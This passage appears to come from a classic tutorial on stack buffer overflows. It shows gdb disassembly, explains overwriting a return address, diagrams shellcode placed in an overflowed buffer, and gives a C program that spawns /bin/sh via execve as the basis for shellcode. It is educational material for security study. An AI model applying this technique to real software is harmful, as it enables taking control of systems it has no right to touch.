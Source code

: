 0x80004bb <main+43>:    call   0x8000378 <printf>
0x80004c0 <main+48>:    addl   $0x8,%esp
0x80004c3 <main+51>:    movl   %ebp,%esp
0x80004c5 <main+53>:    popl   %ebp
0x80004c6 <main+54>:    ret
0x80004c7 <main+55>:    nop
------------------------------------------------------------------------------

   We can see that when calling function() the RET will be 0x8004a8, and we
want to jump past the assignment at 0x80004ab.  The next instruction we want
to execute is the at 0x8004b2.  A little math tells us the distance is 8
bytes.


                                  Shell Code
                                  ~~~~~~~~~~

   So now that we know that we can modify the return address and the flow of
execution, what program do we want to execute?  In most cases we'll simply
want the program to spawn a shell.  From the shell we can then issue other
commands as we wish.  But what if there is no such code in the program we
are trying to exploit?  How can we place arbitrary instruction into its
address space?  The answer is to place the code with are trying to execute in
the buffer we are overflowing, and overwrite the return address so it points
back into the buffer.  Assuming the stack starts at address 0xFF, and that S
stands for the code we want to execute the stack would then look like this:


bottom of  DDDDDDDDEEEEEEEEEEEE  EEEE  FFFF  FFFF  FFFF  FFFF     top of
memory     89ABCDEF0123456789AB  CDEF  0123  4567  89AB  CDEF     memory
           buffer                sfp   ret   a     b     c

<------   [SSSSSSSSSSSSSSSSSSSS][SSSS][0xD8][0x01][0x02][0x03]
           ^                            |
           |____________________________|
top of                                                            bottom of
stack                                                                 stack


The code to spawn a shell in C looks like:

shellcode.c
-----------------------------------------------------------------------------
#include <stdio.h>

void main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
------------------------------------------------------------------------------

   To find out what does it looks like in assembly we compile it, and start
up gdb.  Remember to use the -static flag. Otherwise the actual code the
for the execve system call will not be included.  Instead there will be a
reference to dynamic C library that would normally would be linked in at
load time.
